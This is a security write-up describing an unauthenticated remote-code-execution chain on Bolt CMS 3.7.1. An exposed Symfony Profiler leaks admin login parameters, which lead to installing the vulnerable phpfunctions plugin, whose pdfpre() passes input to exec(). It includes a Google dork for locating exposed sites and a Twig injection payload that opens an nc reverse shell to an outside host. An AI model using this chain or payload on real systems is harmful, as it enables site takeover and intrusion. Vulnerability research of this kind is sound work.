
# B2: Bolt CMS <= 3.7.1, Profiler + Extensions = RCE

[Bolt](https://bolt.cm/) is an open source Content Management Tool (CMS), which strives to be as simple and straightforward as possible. It is quick to set up, and it's because it's so simple to configure that some people configure it badly.

The reviewed version is v3.7.1 but lower versions are potentially vulnerable as well.

This is not a vulnerability in the core application source code but more a chain of a bad configuration set up by the administrators and the use of a vulnearable plugin that allows an unauthenticated user to obtain a RCE on the underlying system. Moreover the first part of this chain may be reused on most of the [Symfony](https://symfony.com/) based CMS which use the [Profiler](https://symfony.com/doc/current/profiler.html).

As explained in the Symfony documentation:
> The Profiler is a powerful development tool that gives detailed information about the execution of any request. Never enable the Profiler in production environments as it will lead to major security vulnerabilities in your project.

## The Profiler

Bolt CMS is based on Symfony and enables by default the Profiler for all authenticated users. Since the Profiler is only enabled for authenticated users, we may only need to create an account to access it, but for reasons I don't know, it turns out that many Bolt deployments provide the Profiler to unauthenticated users as it can be oservated using the following dork:

```
"bolt" inurl:wdt
```



Let's take a local instance of Bolt configured as the sites provided by [Google](https://www.google.com/search?ei=4FdOX9qpDpKQlwT5wYP4Ag&q=%22bolt%22+inurl%3Awdt&oq=%22bolt%22+inurl%3Awdt&gs_lcp=CgZwc3ktYWIQA0oFCAkSATFKBQgKEgEzUJceWIUfYLMgaABwAHgAgAE8iAGFAZIBATOYAQCgAQGqAQdnd3Mtd2l6wAEB&sclient=psy-ab&ved=0ahUKEwjamYXjksjrAhUSyIUKHfngAC8Q4dUDCAw&uact=5).



We will use the Profiler to list the last 10 000 POST requests. And in the set of queries displayed we have to choose a query to the route <span style="color:red">/bolt/login</span> with the status code 302.



The Profiler allowing to analyze the request provides us with the parameters present in the body of the POST request.





Which allows us to authenticate ourselves as an admin within the application.



## Extensions

Since the version 3.6.7 which fixes the vulnerability [CVE-2019-10874](https://fgsec.net/2020/04/20/From-CSRF-to-RCE.html), it is no longer possible to upload PHP files in order to obtain a remote code execution. However we are admin and it is therefore possible for us to install plugins.

The problem is that it is not possible for us to install customs ones, because it is only possible to install them from https://market.bolt.cm/. That's why the following steps will highlight how to get our RCE.

### Step 1: Edit the configuration file

In order to be able to install any plugin from the market it is necessary to modify the configuration file <span style="color:red">\<ROOT\>/app/config/config.yml</span>.

From

File: <span style="color:red">\<ROOT\>/app/config/config.yml</span>
```
# Do not change this, unless you know what you're doing, and understand the
# associated risks. If you use 'http://market.bolt.cm', Bolt will not use
# SSL, increasing the risk for a MITM attacks.
# extensions:
#     site: 'https://market.bolt.cm/'
#     enabled: true
#     composer:
#         minimum-stability: stable      # Either 'stable', 'beta', or 'dev'. Setting 'dev' will allow you to install dev-master versions of extensions.
```

To

File: <span style="color:red">\<ROOT\>/app/config/config.yml</span>
```
# Do not change this, unless you know what you're doing, and understand the
# associated risks. If you use 'http://market.bolt.cm', Bolt will not use
# SSL, increasing the risk for a MITM attacks.
extensions:
    site: 'https://market.bolt.cm/'
    enabled: true
    composer:
        minimum-stability: dev      # Either 'stable', 'beta', or 'dev'. Setting 'dev' will allow you to install dev-master versions of extensions.
```





### Step 2: Find a vulnerable plugin

Now that it is possible for us to install plugins, it will be up to us to find a vulnerable one. To do this, there is no secret we have to audit some code
until we find what we are looking for.

It is with the [phpfunctions](https://market.bolt.cm/view/levin/phpfunctions) plugin developed by Oleg Levin that we will be able to obtain an RCE.



The purpose of the plugin is to add 7 functions and 2 filters to Twig.

Functions:
- array_rand(array, numitems)
- str_replace(search, replace, subject)
- filesize(file)
- videoinfo(videolink)
- pdfpre(pdffilename, width, height)
- calendar(month, year, day)
- server(param)

Filters:
- suffle
- url_decode

And it is one of these functions that will be our vector of exploitation.

The plugin follows the following tree structure and it is within the file <span style="color:red">phpfunctionsExtension.php</span> that the code of the plugin can be found.
```
▶ tree extensions/vendor/levin/             
extensions/vendor/levin/
└── phpfunctions
    ├── composer.json
    ├── init.php
    ├── phpunit.xml.dist
    ├── README.md
    ├── src
    │   ├── phpfunctionsExtension.php
    │   └── VideoThumb.php
    └── tests
        ├── bootstrap.php
        └── phpfunctionsTest.php

3 directories, 8 files
```

As it is possible to see below, the function `pdfpre()` take a parameter `$file` which is passed as a parameter of the `exec()` function allowing us to execute commands on the underlying system and thus obtain the RCE.

File: <span style="color:red">\<ROOT\>/extensions/vendor/levin/phpfunctions/src/phpfunctionsExtension.php</span>
```php

    ...

    public function pdfpre($file = "", $width = 100, $height = 0) {
	$app = $this->getContainer();
	$thumb_path = $app['resources']->getPath('webpath') . '/thumbs/pdfpre/';
	if (!is_dir($thumb_path)) {
	    mkdir($thumb_path, 0777);
	}

	$path_parts = pathinfo($app['resources']->getPath('filespath') . $file);
	$filename = $path_parts['filename'];
	$filepath = $path_parts['dirname'];

	if (!file_exists($thumb_path . $filename . '.jpg')) {
	    exec('convert "' . $app['resources']->getPath('filespath') . '/' . $file . '[0]" -colorspace RGB -density 300 -quality 95 -background white -alpha remove -geometry ' . $width . ' -border 2x2 -bordercolor "#efefef" ' . $thumb_path . $filename . '.jpg');
	}

	$html = <<< EOM
         
EOM;
	$html = str_replace("%src%", '/thumbs/pdfpre/' . $filename . '.jpg', $html);
	$html = str_replace("%alt%", $filename, $html);
	return new \Twig_Markup($html, 'UTF-8');
    }

    ...

```

In order to exploit the vulnerability it is necessary to add `{{ pdfpre('"; nc -e /bin/bash 172.18.0.1 1337 #', 100, 100) }}` in one of the theme's template files.

For exemple: <span style="color:red">index.twig</span>.

File: <span style="color:red">\<ROOT\>/public/theme/base-2018/index.twig</span>

```twig




{{ pdfpre('"; nc -e /bin/bash 172.18.0.1 1337 #', 100, 100) }}

<section class="section">

...

```



The exploit will be triggered as soon as a user loads a page.





